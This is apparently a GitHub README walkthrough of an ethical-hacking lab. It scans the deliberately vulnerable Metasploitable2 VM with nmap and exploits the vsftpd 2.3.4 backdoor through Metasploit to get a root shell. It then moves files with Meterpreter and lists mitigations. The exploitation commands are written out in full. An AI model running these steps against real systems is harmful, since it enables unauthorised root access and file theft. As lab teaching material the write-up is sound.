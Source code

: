 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**1) General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**2) Detailed nmap scan to see services and versions**
- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

---

## 💣 Exploitation Process

**1) Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Search Exploit](images/search-exploit.png)


**2) Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

![Exploit](images/exploit.png)

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`

![Exploit](images/verify-root-access.png)


- Navigated the file system, listed directories

![Exploit](images/file-navigation.png)


- Transferred files from attacker to victim using the Meterpreter `upload` command

![Exploit](images/upload1.png)


- Downloaded the victim's files back to Kali using the `download` command

![Exploit](images/download1.png)
![Exploit](images/download2.png)

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

Date created: 24/04/2025
